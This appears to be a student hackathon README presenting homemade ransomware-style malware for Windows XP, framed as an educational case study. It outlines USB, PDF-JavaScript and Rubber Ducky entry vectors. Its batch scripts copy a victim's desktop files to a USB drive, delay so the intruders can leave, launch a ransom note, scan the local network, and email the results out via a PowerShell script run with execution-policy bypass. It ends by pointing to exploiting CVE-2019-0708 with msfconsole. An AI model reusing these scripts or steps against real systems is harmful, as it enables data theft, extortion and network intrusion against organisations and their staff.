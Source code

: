 # Man1f3zzt0

## Made by Ellioth Denzel Romero Martinez, Luis Daniel Filorio Luna, Miguel Soria, Omar Emiliano Sanchez Villegas, Sofia Moreno Lopez.

This piece of malware was created for a pseudo hackathon that aimed to teach students interested in cybersecurity how malware compromised big industry systems, especially legacy systems. 
The challenge proposed a case study where a pharmaceutical company let 3 threat actors posed as students enter their headquarters, and through social engineering managed to enter a usb into an employees computer. They printed a pdf file that was downloaded into the computer and after they left the first computer started showing a ransom note and lost access to its files. 
After some minutes the same started happening in other branches near the main HQ and after an hour it managed to infect their whole system.

The challenge was proposing a recovery plan and figuring out how they propagated through the system and compromised it, in an effort to give the best and most plausible solution my team and I got into the shoes of the threat actors and designed a malware to attack a windows xp system, there was no information about what system they were using but they challenge specified it was at least 20 years old and to this day windows xp is widely used around the world.



In the recon phase of the development we found 3 potential entry vectors, a misconfiguration of .inf files entering a system, a rubber ducky posing as a mass storage device and adobe acrobat executing JavaScript code embedded in pdf files.

These 3 entry vectors had one goal, to execute a malicious batch file that would copy our main malware into the system and execute it. The malicious file would then wait for 15 minutes before executing so the threat actors could exit the building.

## FIrst entry vector .inf files in the root of a usb - semi successful 

When a .inf file is in the root directory of a usb, it can run files instantly when placed inside a windows xp machine.
This vector proved somehow successful in early versions of windows XP, especially before windows xp SP2. The reason this wasn't our entry vector is that most configurations of windows xp for large systems have a registry that prompts a user input when a .inf is detected in the root directory of a usb system.


## Second entry vector Javascript code inside PDF - semi successful 

Most of the versions of Adobe Acrobat Reader that were built for Windows XP by default run JavaScript code embedded inside of any pdf file. 
Our first approach to this entry vector was successful, we managed to display an alert on the machine symply by opening the file on Adobe Acrobat and Windows Explorer.

This seemed like the best way to enter the system, but then when designing and testing a different payload that used the JS ActiveXObject constructor to call cmd commands, we got an error detailing that ActiveXObject was not declared in the system. 
With short time we tried using a different version of windows xp but the error kept happening, it wasn't solved even after letting adobe acrobat have every unsafe permission. 
With little time left we needed to change approaches.

## Third entry vector rubber ducky posing as mass storage device - ULTRA SUCCESSFUL

To this day this is one of the most efficient entry vectors, the only downside is you need physical access to the system you are trying to pawn and the case study told us the threat actors did, even though this was the most efficient approach we made it our last resource as we knew we could develop the script pretty easily. 

We used a HAK5 rubber ducky and payload studio pro to develop the simple chain of keystrokes that would run in the background as the pdf file was opened. 


This simple keystroke injection opened the doors to our payload. 


## Payload 

Our payload consisted of 3 batch files.  Each with its unique function. 

Our first batch file was made so we could run code even after unplugging the usb from the target machine. It copies our main caller into the desktop and executes it. 
We used system variables that got the username from the system and used it to define the PATH to the desktop, with this we didn't need to worry about knowing and hard coding the username.

```

xcopy "%~dp0\maincaller.bat" "%userprofile%\Desktop\" /Y
start "" "%userprofile%\Desktop\maincaller.bat"

```



The second batch file is a little more complex, firstly copies everything from the desktop into a file inside our usb.

```

@echo off
setlocal

:: Set variables
set USB_DRIVE=E:  :: Change this to the letter of your USB drive
set DESKTOP_DIR=%USERPROFILE%\Desktop
set DEST_DIR=%USB_DRIVE%\DesktopBackup
set FINAL_SCRIPT=%USB_DRIVE%\final_script.bat
set WAIT_TIME=60  :: Time to wait in seconds

:: Create destination directory on USB drive
if not exist %DEST_DIR% mkdir %DEST_DIR%

:: Copy Desktop contents to USB drive
xcopy "%DESKTOP_DIR%\*" "%DEST_DIR%\" /E /H /C /I

```

After this it will start a timeout to wait for the threat actors to leave the building
It will delete everything and start a cmd file that shows the ransom note.

```

ping -n 240 127.0.0.1
start cmd /c "main.bat"

:monitor

REM Delay for 2 seconds
ping -n 30 127.0.0.1 >nul

start cmd /c "man1f3zzt0.bat"

goto monitor

```

## Lateral movement 

The next part is only a prove of concept as we were running out of time. 
We will use the simple mail transfer protocol to send all of the local ips that are currently in use.

Firstly we ping all of the possible local ips using a CIDR of /24. 
If they respond we save it to a local variable and continue until finished.
After this we curl to http://ipinfo.io/ip, this will give us the public ip address of this network.

```

@echo off
setlocal

:: Set variables
set NETWORK_BASE=192.168.1.  :: Change this to your network base
set OUTPUT_FILE=%TEMP%\network_scan_results.txt
set PUBLIC_IP_FILE=%TEMP%\public_ip.txt
set EMAIL_TO=someone@example.com  :: Change this to the recipient's email address
set EMAIL_SUBJECT="Network Scan Results"
set SMTP_SERVER=smtp.example.com  :: Change this to your SMTP server
set SMTP_PORT=587                 :: Change this to your SMTP server port
set SMTP_USERNAME=your_email@example.com  :: Change this to your email
set SMTP_PASSWORD=your_password   :: Change this to your email password

:: Clear previous output files
if exist %OUTPUT_FILE% del %OUTPUT_FILE%
if exist %PUBLIC_IP_FILE% del %PUBLIC_IP_FILE%

:: Get public IP address
echo Retrieving public IP address...
curl -s http://ipinfo.io/ip > %PUBLIC_IP_FILE%

:: Scan the network
echo Scanning the network...
for /L %%i in (1,1,254) do (
    ping -n 1 -w 1000 %NETWORK_BASE%%%i | find "Reply from" >> %OUTPUT_FILE%
)

:: Append public IP to output file
echo Public IP Address: >> %OUTPUT_FILE%
type %PUBLIC_IP_FILE% >> %OUTPUT_FILE%

```


We package all of this and send it to a properly configured gmail address. 

```
:: Prepare PowerShell script to send email
set PS_SCRIPT=%TEMP%\send_email.ps1
echo $EmailFrom = "%SMTP_USERNAME%" > %PS_SCRIPT%
echo $EmailTo = "%EMAIL_TO%" >> %PS_SCRIPT%
echo $Subject = "%EMAIL_SUBJECT%" >> %PS_SCRIPT%
echo $Body = "Find the attached network scan results." >> %PS_SCRIPT%
echo $SMTPServer = "%SMTP_SERVER%" >> %PS_SCRIPT%
echo $SMTPPort = %SMTP_PORT% >> %PS_SCRIPT%
echo $SMTPUser = "%SMTP_USERNAME%" >> %PS_SCRIPT%
echo $SMTPPass = "%SMTP_PASSWORD%" >> %PS_SCRIPT%
echo $Attachment = "%OUTPUT_FILE%" >> %PS_SCRIPT%
echo $Message = New-Object System.Net.Mail.MailMessage $EmailFrom, $EmailTo, $Subject, $Body >> %PS_SCRIPT%
echo $SMTP = New-Object Net.Mail.SmtpClient($SMTPServer, $SMTPPort) >> %PS_SCRIPT%
echo $SMTP.EnableSsl = $true >> %PS_SCRIPT%
echo $SMTP.Credentials = New-Object System.Net.NetworkCredential($SMTPUser, $SMTPPass) >> %PS_SCRIPT%
echo $Message.Attachments.Add((New-Object System.Net.Mail.Attachment($Attachment))) >> %PS_SCRIPT%
echo $SMTP.Send($Message) >> %PS_SCRIPT%

:: Execute the PowerShell script
powershell -ExecutionPolicy Bypass -File %PS_SCRIPT%

:: Clean up
del %OUTPUT_FILE%
del %PUBLIC_IP_FILE%
del %PS_SCRIPT%
endlocal

```


With all this info we can use the msfconsole to exploit the [CVE-2019-0708](https://nvd.nist.gov/vuln/detail/cve-2019-0708)

This vulnerability allows remote code execution and makes it extremely easy to propagate through the whole system.

All of this was made by my team and i in less than 20 hours, we learned a lot and are happy with the final product. 

